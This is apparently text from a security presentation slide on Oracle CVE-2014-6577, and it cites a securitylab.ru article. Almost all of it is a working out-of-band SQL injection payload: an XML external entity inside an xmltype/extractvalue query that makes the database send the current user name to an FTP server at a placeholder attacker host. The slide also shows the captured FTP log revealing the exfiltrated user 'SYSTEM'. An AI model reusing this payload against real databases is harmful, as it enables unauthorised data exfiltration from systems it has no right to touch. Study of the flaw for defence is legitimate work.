

# Oracle
> select extractvalue(xmltype('<?xml version="1.0" encoding=" 
UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM " 
ftp://'||user||':bar@IP/test"> %remote; %param1;]>'),'/l') from dual;
>  USER SYSTEM
331 Password required for system
PASS ***

Oracle, CVE-2014-6577
http://www.securitylab.ru/analytics/471951.php